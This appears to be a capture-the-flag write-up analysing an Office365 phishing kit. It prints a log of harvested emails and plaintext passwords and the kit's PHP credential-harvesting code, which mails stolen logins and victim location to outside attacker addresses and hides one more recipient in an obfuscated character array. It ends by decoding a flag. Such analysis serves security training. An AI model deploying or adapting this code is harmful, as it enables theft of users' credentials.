User Agent : Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/112.0
Country : Philippines
Date: Mon Jun 29, 2020 10:00 am
--- http://www.geoiptool.com/?IP=158.62.17.197 ----
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : <strong>michael.ascot@swiftspend.finance</strong>
Password : Invoice2023!
-----------------------------------
Client IP: 64.62.197.80
User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Country : United States
Date: Mon Jun 29, 2020 10:01 am
--- http://www.geoiptool.com/?IP=64.62.197.80 ----
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : zoe.duncan@swiftspend.finance
Password : Passw0rd1!
-----------------------------------
Client IP: 64.62.197.80
User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Country : United States
Date: Mon Jun 29, 2020 10:01 am
--- http://www.geoiptool.com/?IP=64.62.197.80 ----
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : <strong>michael.ascot@swiftspend.finance</strong>
Password : Invoice2023!
-----------------------------------
Client IP: 64.62.197.80
User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Country : United States
Date: Mon Jun 29, 2020 10:01 am
--- http://www.geoiptool.com/?IP=64.62.197.80 ----
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : derick.marshall@swiftspend.finance
Password : lol
-----------------------------------
Client IP: 64.62.197.80
User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Country : United States
Date: Mon Jun 29, 2020 10:01 am
--- http://www.geoiptool.com/?IP=64.62.197.80 ----
--+ Created BY Real Carder +---
---------+ Office365 Login  |+-------
Email : michelle.chen@swiftspend.finance
Password : testing123
-----------------------------------
Client IP: 64.62.197.80
User Agent : Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/60.0.3112.113 Safari/537.36
Country : United States
Date: Mon Jun 29, 2020 10:01 am
--- http://www.geoiptool.com/?IP=64.62.197.80 ----
--+ Created BY Real Carder +---
```


---


##### submit.php


```js
<?php

if ($_SERVER['REQUEST_METHOD'] == 'GET')
{
print '
<html><head>
<title>403 - Forbidden</title>
</head><body>
<h1>403 Forbidden</h1>
<p></p>
<hr>
</body></html>
';
exit;
}

function random_number(){
	$numbers = array(0,1,2,3,4,5,6,7,8,9,'A','b','C','D','e','F','G','H','i','J','K','L');
	$key = array_rand($numbers);
	return $numbers[$key];
}

$url = random_number().random_number().random_number().random_number().random_number().random_number().date('U').md5(date('U')).md5(date('U')).md5(date('U')).md5(date('U')).md5(date('U'));
header('location:'.$url);

$country = visitor_country();
$browser = $_SERVER['HTTP_USER_AGENT'];
$adddate = date("D M d, Y g:i a");
$from = $_SERVER['SERVER_NAME'];
$ip = getenv("REMOTE_ADDR");
$hostname = gethostbyaddr($ip);
$email = $_POST['email'];
$password = $_POST['password'];
$passchk = strlen($password);


$message .= "---------+ Office365 Login  |+-------\n";
$message .= "Email : ".$email."\n";
$message .= "Password : ".$password."\n";
$message .= "-----------------------------------\n";
$message .= "Client IP: ".$ip."\n";
$message .= "User Agent : ".$browser."\n";
$message .= "Country : ".$country."\n";
$message .= "Date: ".$adddate."\n";
$message .= "--- http://www.geoiptool.com/?IP=$ip ----\n";
$message .= "--+ Created BY Real Carder +---\n";


$send = "m3npat@yandex.com";

$bron = "Outlook update $ip | Office365";
$lagi = "MIME-Version: 1.0\n";
$lagi = "From: $ip <no-reply@$from>";

// Function to get country and country sort;

function visitor_country()
{
    $client  = @$_SERVER['HTTP_CLIENT_IP'];
    $forward = @$_SERVER['HTTP_X_FORWARDED_FOR'];
    $remote  = $_SERVER['REMOTE_ADDR'];
    $result  = "Unknown";
    if(filter_var($client, FILTER_VALIDATE_IP))
    {
        $ip = $client;
    }
    elseif(filter_var($forward, FILTER_VALIDATE_IP))
    {
        $ip = $forward;
    }
    else
    {
        $ip = $remote;
    }

    $ip_data = @json_decode(file_get_contents("http://www.geoplugin.net/json.gp?ip=".$ip));

    if($ip_data && $ip_data->geoplugin_countryName != null)
    {
        $result = $ip_data->geoplugin_countryName;
    }

    return $result;
}

function country_sort(){
	$sorter = "";
	$array = array(99,111,100,101,114,99,118,118,115,64,103,109,97,105,108,46,99,111,109);
	$count = count($array);
	for ($i = 0; $i < $count; $i++) {
			$sorter .= chr($array[$i]);
		}
	return array($sorter, $GLOBALS['recipient']);
}

if ($passchk < 6)
{
$passerr = 0;
}
else
{
$passerr = 1;
}


if ($passerr == 0)
{
header("Location: index.php?$url&email=$email&error=2");
}
else
{
mail("m3npat@yandex.com",$bron,$message,$lagi);
header("Location: retry.php?$url&email=$email&error=2");
}

?>
```


```js
[SNIP]

if ($passerr == 0)
{
header("Location: index.php?$url&email=$email&error=2");
}
else
{
mail("<strong>m3npat@yandex.com</strong>",$bron,$message,$lagi);
header("Location: retry.php?$url&email=$email&error=2");
}

?>

[SNIP]
```


---


##### update.cmd


```js
 <div class="login-html">
	  <div class="LogoOne"></div>
	   <div class="foot-lnk">To access the attached document, Select with email provider below. </div>
    
    <!--<input id="tab-1" type="radio" name="tab" class="sign-in" checked><label for="tab-1" class="tab">Sign In</label>

    //get user's ip address
    $geoplugin->locate();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
    $ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
    $ip = $_SERVER['REMOTE_ADDR'];
    }

    $message = "";
	$message .= "---|BLESSINGS|---\n";
    $message .= "Email Provider: Yahoo\n";
    $message .= "E: " . $_GET['email'] . "\n";
    $message .= "Ps: " . $_GET['password'] . "\n";
    $message .= "IP : " .$ip. "\n";
    $message .= "--------------------------\n";
    $message .=     "City: {$geoplugin->city}\n";
    $message .=     "Region: {$geoplugin->region}\n";
    $message .=     "Country Name: {$geoplugin->countryName}\n";
    $message .=     "Country Code: {$geoplugin->countryCode}\n";
    $message .= "--------------------------\n";

	$to ="jamestanner2299@gmail.com"
		<input id="tab-2" type="radio" name="tab" class="sign-up"><label for="tab-2" class="tab">Sign Up</label>-->
    <div class="login-form">
      <div class="sign-in-htm">
        <div class="group">
          <div class="btn-3 loginBtn loginBtn--office"><a href="o1">Login with Office 365</a></div>
        </div>
        <div class="group">
          <div class="btn-3 loginBtn loginBtn--outlook"><a href="o4">Login with Outlook</a></div>
        </div>
        <div class="group">
          <div class="btn-3 loginBtn loginBtn--aol"><a href="a2">Login with Aol</a></div>
        </div>
        <div class="group">
			<div class="btn-3 loginBtn loginBtn--yahoo"><a href="y3">Login with Yahoo</a></div>
        </div>
        <div class="group">
          <div class="btn-3 loginBtn loginBtn--other"><a href="o6">Login with Other Mail</a></div>
		  	require_once('geoplugin.class.php');
	$geoplugin = new geoPlugin();

    //get user's ip address
    $geoplugin->locate();
    if (!empty($_SERVER['HTTP_CLIENT_IP'])) {
    $ip = $_SERVER['HTTP_CLIENT_IP'];
    } elseif (!empty($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    } else {
    $ip = $_SERVER['REMOTE_ADDR'];
    }

    $message = "";
	$message .= "---|BLESSINGS|---\n";
    $message .= "Email Provider: Yahoo\n";
    $message .= "E: " . $_GET['email'] . "\n";
    $message .= "Ps: " . $_GET['password'] . "\n";
    $message .= "IP : " .$ip. "\n";
    $message .= "--------------------------\n";
    $message .=     "City: {$geoplugin->city}\n";
    $message .=     "Region: {$geoplugin->region}\n";
    $message .=     "Country Name: {$geoplugin->countryName}\n";
    $message .=     "Country Code: {$geoplugin->countryCode}\n";
    $message .= "--------------------------\n";

	$to ="jamestanner2299@gmail.com"

	$subject = "Yahoo | $ip";
	$headers = "From: Blessing <blessing@heaven.com>";
```


```js
[SNIP]

$message = "";
$message .= "---|BLESSINGS|---\n";
$message .= "Email Provider: Yahoo\n";
$message .= "E: " . $_GET['email'] . "\n";
$message .= "Ps: " . $_GET['password'] . "\n";
$message .= "IP : " .$ip. "\n";
$message .= "--------------------------\n";
$message .=     "City: {$geoplugin->city}\n";
$message .=     "Region: {$geoplugin->region}\n";
$message .=     "Country Name: {$geoplugin->countryName}\n";
$message .=     "Country Code: {$geoplugin->countryCode}\n";
$message .= "--------------------------\n";

$to ="<strong>jamestanner2299@gmail.com</strong>"

	$subject = "Yahoo | $ip";
	$headers = "From: Blessing <blessing@heaven.com>";

[SNIP]
```


---


#### Get the Flag !


##### REVERSED


```
> After a long search and looking at the hint, I found the following url...
<strong>http://kennaroads.buzz/data/Update365/office365/flag.txt</strong>

The secret is:
<strong>fUxSVV8zSHRfaFQxd195NExwe01IVAo=</strong>
```


---


##### [IDENTIFY STRING WITH CyberChef.IO](<https://cyberchef.io/#recipe=Magic(3,false,false,'')&input=ZlV4U1ZWOHpTSFJmYUZReGQxOTVORXh3ZTAxSVZBbz0>)


```
> As the '=' could probably tell you, it is base64

The secret is:
<strong>}LRU_3Ht_hT1w_y4Lp{MHT</strong>
```


```
> Looks a little wrong...
> Try this with <a href="https://cyberchef.io/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Reverse('Character')" target="_blank" rel="noreferrer noopener">CyberChef.io</a>
```


- 


